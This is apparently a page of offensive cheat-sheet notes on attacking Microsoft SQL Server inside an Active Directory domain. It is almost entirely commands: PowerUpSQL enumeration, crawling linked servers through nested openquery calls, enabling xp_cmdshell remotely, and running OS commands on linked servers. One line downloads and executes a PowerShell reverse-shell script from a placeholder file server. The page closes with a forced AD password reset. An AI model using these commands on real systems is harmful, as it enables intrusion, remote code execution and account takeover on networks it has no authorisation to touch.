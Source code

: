 * Check Accessibility
```
Get-SQLConnectionTestThreaded
```
```
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```

* Gather Information
```
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

* Searching Database Links
```
Get-SQLServerLink -Instance srv-mssql -Verbose
```
or in .exe  
```
select * from master..sysservers
```

* Enumerating DatabaseLinks via powerUPSQL
```
Get-SQLServerLinkCrawl -Instance srv-mssql -Verbose
```
or  
* Enumerating DatabaseLinks via Openquery with - Openquery queries can be chained to access links within links(nested links)
```
select * from openquery("srv-sql1",'select * from openquery("srv-mgmt","select * from master..sysservers")')
```

* Executing Commands  
On the target server, either xp_cmdshell should be already enabled or if rpcout is enabled (disabled by default), xp_cmdshell can be enabled using:  
```
EXECUTE('sp_configure "xp_cmdshell",1;reconfigure;')AT "eu-sql"
```

```
Get-SQLServerLinkCrawl -Instance srv-mssql -Query "exec master..xp_cmdshell 'whoami'" | ft
```
or
```
select * from openquery("srv-sql1",'select * from openquery("srv-mgmt","select * from openquery("us-sql",""select @@version as version;exec master..xp_cmdshell "powershell whoami)"")")')
```
or  
```
Invoke-SQLOSCmd -Verbose -Command "powershell iex(New-Object Net.WebClient).DownloadString(‘http://<file_server>/Invoke-PowerShellTcp.ps1') -Instance <hostname>.<domain>
```
https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/lateral_movement/Invoke-SQLOSCmd.ps1

### forcechangepassword
```
Set-ADAccountPassword -Identity <user> -NewPassword (ConvertTo-SecureString -AsPlainText "okay@12345" -Force)
```
